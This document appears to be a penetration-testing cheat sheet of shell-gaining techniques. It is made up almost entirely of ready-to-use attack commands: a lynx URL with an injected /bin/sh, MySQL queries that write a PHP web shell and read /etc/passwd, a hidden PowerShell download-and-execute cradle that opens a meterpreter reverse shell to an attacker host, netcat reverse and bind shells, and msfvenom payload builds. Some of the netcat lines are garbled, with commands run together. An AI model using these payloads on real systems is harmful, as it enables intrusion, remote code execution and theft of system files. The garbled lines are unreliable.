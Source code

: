 ```
            - Obtain an interactive shell through lynx: It is possible to obtain an interactive shell via special LYNXDOWNLOAD URLs. This is a big security hole for sites that use lynx "guest accounts" and other public services. More details `LynxShell <http://insecure.org/sploits/lynx.download.html>`_
            - When you start up a lynx client session, you can hit "g" (for Goto) and then enter the following URL:
               - URL to open: LYNXDOWNLOAD://Method=-1/File=/dev/null;/bin/sh;/SugFile=/dev/null
### MYSQL
  -  If we have MYSQL Shell via sqlmap or phpmyadmin, we can use mysql outfile/ dumpfile function to upload a shell.
```
echo -n "<?php phpinfo(); ?>" | xxd -ps 3c3f70687020706870696e666f28293b203f3e
select 0x3c3f70687020706870696e666f28293b203f3e into outfile "/var/www/html/blogblog/wp-content/uploads/phpinfo.php"
```
 or
```
 - SELECT "<?php passthru($_GET['cmd']); ?>" into dumpfile '/var/www/html/shell.php';
```
 If you have sql-shell from sqlmap/ phpmyadmin, we can use
 ```
               - select load_file('/etc/passwd');
```


# Reverse Shell from Windows
##### If there’s a way, we can execute code from windows, we may try
                - Powershell Empire/ Metasploit Web-Delivery Method
###  Invoke-Shellcode (from powersploit)
                    - Code:
                       Powershell.exe -NoP -NonI -W Hidden -Exec Bypass IEX (New-Object Net.WebClient).DownloadString('http://YourIPAddress:8000/Invoke-Shellcode.ps1'); Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost YourIPAddress -Lport 4444 -Force"
## - Upload ncat and execute
### with nc:
### Windows reverse shell
                    - c:>nc -Lp 31337 -vv -e cmd.exe nc 192.168.0.10 31337
                    - c:>nc example.com 80 -e cmd.exe nc -lp 80
                    - nc -lp 31337 -e /bin/bash
                    - nc 192.168.0.10 31337
                    - nc -vv -r(random) -w(wait) 1 192.168.0.10 -z(i/o error) 1-1000
### MSF Meterpreter ELF

               - msfvenom -p linux/x86/meterpreter/reverse_tcp -f elf -o met LHOST=10.10.XX.110 LPORT=4446
## Metasploit MSFVenom

##### Ever wondered from where the above shells came from? Maybe try msfvenom and grep for cmd/unix
               msfvenom -l payloads | grep "cmd/unix"

```               
**snip**
   cmd/unix/bind_awk                                   Listen for a connection and spawn a command shell via GNU AWK
   cmd/unix/bind_inetd                                 Listen for a connection and spawn a command shell (persistent)
   cmd/unix/bind_lua                                   Listen for a connection and spawn a command shell via Lua
   cmd/unix/bind_netcat                                Listen for a connection and spawn a command shell via netcat
   cmd/unix/bind_perl                                  Listen for a connection and spawn a command shell via perl
   cmd/unix/interact                                   Interacts with a shell on an established socket connection